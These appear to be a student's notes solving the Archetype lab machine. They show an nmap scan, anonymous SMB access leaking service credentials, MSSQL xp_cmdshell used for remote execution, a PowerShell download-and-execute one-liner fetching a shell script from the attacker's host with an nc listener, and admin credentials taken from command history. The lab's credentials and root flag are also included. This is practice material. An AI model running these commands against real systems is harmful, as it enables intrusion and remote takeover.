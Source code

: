 Port Scan: nmap -sV -sC 10.10.10.27

# ports-and-services.md:
	```
	135/tcp  open  msrpc        Microsoft Windows RPC
	139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
	445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
	1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
	```
- Lessons Learned:
	- Using -sC in nmap will get detailed information the services running apart from just the version number
	- Pretty much always do nmap -sV -sC


# services/smb.md:
- Allows for anonymous login
- Only backups/ & IPC$/ are mountable
- Creds found at `\\10.10.10.27\backups\prod.dtsConfig`
	- User:	`ARCHETYPE\sql_svc`
	- Pass:	`M3g4c0rp123`
- Found root flag at `\\10.10.10.27\C$\Users\Administrator\Desktop\root.txt`
	- Flag: `b91ccec3305e98240082d4474b848528`

			
- Lessons Learned
	- When just listing the root dir of the share, you don't need any backslashes
	- When connecting to a share it expects two backslashes before the hostname/ip and a single backslash for each directory
		- Since "\" is an escape character you need to double the amount of backslashes
		- Ex \\\\myhost\\mydir
	- The IPC$ directory was mountable, but seemd to be empty with all other directories getting access denied
	- Once you have admin credentials, connecting via SMB to something like C$ is the way to go. That way you have access to the whole disk

MSSQL: mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.10.10.27
	- 

	- Notes
		- Note that the username and domain are sperated by a forward slash not a backslash!
		- After typing help we get a list of option with one of which being enable_xp_cmdshell which wil allow for RCE
		- First I tried setting up a webserver on my local machine and fetching the file on the server with "xp_cmdshell curl -o twof_shell.ps1 http://10.10.14.129/twof_shell.ps1"
			- This did not work since I didn't have permission to write files
		- The solution was to call powershell and tell it to download the contents of my script and invoke the string output immediatly without saving it to a file
			- This at first did not work sicne the Micorsoft.PowerShell.Utility module was not loaded. To fix this I added "Import-Module Microsoft.PowerShell.Utility;" to the start of my script
			- Final solution: xp_cmdshell "powershell "Import-Module Microsoft.PowerShell.Utility; IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.129/twof_shell.ps1\");""
				- host listening with: nc -lnvp 443
		- powershell "Import-Module Microsoft.PowerShell.Utility; IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.129/twof_shell.ps1\");"
			- This is a really powerful command and should be used when you can't save a file but you can invoke powershell

# services/shell.md
- Found administrator credentials by looking at powershell command history
	- User: `administrator`
	- Pass: `MEGACORP_4dm1n!!`

